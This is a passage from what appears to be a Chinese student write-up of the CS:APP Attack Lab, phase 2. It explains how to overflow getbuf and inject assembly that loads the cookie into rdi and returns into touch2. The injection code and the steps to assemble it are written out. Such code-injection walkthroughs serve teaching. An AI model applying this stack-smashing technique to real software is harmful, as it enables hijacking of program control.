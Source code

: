# 2

接下来需要调用touch2，依旧是上面的test和getbuf函数，但是touch2具有传参val

```c
void touch2(unsigned val) {
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

我们的目的是让getbuf，ret指令rsp依旧是touch2地方。但是需要将rdi寄存器的值设置成cookie(函数的第一个参数是保存在rdi寄存器中的)。

```
00000000004017a8 <getbuf>:
  4017a8:       48 83 ec 28             sub    $0x28,%rsp
  4017ac:       48 89 e7                mov    %rsp,%rdi
  4017af:       e8 ac 03 00 00          call   401b60 <Gets>
  4017b4:       b8 01 00 00 00          mov    $0x1,%eax
  4017b9:       48 83 c4 28             add    $0x28,%rsp
  4017bd:       c3                      ret
  4017be:       90                      nop
  4017bf:       90                      nop
```

思考：我们怎么才能够让寄存器rdi的值变成想要的cookie的值，我们可以自己写汇编代码完成，

1. 将cookie的值放到rdi寄存器中
2. 跳转到touch2位置处

完成步骤一只需要mov $0x59b997fa,%rdi   将立即数放到rdi寄存器中

完成步骤二，想要跳转到touch2位置处，由于作者要求不要使用jmp指令，我们想到的就是使用ret指令，因为使用ret指令可以改变rip的值，但是由于使用ret指令会将栈中的值进行弹出rsp位置的值，所以在此之前我们应该先将touch2的地址先push进去。

最后我们需要让getbuf的ret之后的rip指向我们自己注入的上述的代码。

先完成汇编代码到机器代码的过程**编写的汇编代码：example.s**

```
mov $0x59b997fa,%rdi
pushq $0x4017ec
retq
```

**转换成机器代码过程**

```
$ gcc -c example.s
$ objdump -d example.o 
```

